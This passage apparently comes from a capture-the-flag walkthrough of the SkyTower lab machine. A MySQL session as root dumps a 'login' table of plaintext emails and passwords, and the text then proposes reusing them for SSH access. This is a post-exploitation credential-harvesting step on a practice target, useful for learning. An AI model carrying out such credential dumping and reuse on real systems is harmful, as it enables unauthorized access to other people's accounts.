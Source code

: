 ```bash
john@SkyTower:~$ mysql -h localhost -u root -p
Enter password: 
Welcome to the MySQL monitor.  Commands end with ; or \g.
Your MySQL connection id is 42
Server version: 5.5.35-0+wheezy1 (Debian)

Copyright (c) 2000, 2013, Oracle and/or its affiliates. All rights reserved.

Oracle is a registered trademark of Oracle Corporation and/or its
affiliates. Other names may be trademarks of their respective
owners.

Type 'help;' or '\h' for help. Type '\c' to clear the current input statement.

mysql> show databases;
+--------------------+
| Database           |
+--------------------+
| information_schema |
| SkyTech            |
| mysql              |
| performance_schema |
+--------------------+
4 rows in set (0.01 sec)

mysql> use SkyTech
Reading table information for completion of table and column names
You can turn off this feature to get a quicker startup with -A

Database changed
mysql> show tables;
+-------------------+
| Tables_in_SkyTech |
+-------------------+
| login             |
+-------------------+
1 row in set (0.00 sec)

mysql> select * from login;
+----+---------------------+--------------+
| id | email               | password     |
+----+---------------------+--------------+
|  1 | john@skytech.com    | hereisjohn   |
|  2 | sara@skytech.com    | ihatethisjob |
|  3 | william@skytech.com | senseable    |
+----+---------------------+--------------+
3 rows in set (0.00 sec)

```

We have some credentials here. Let's see if we can `ssh` using these.
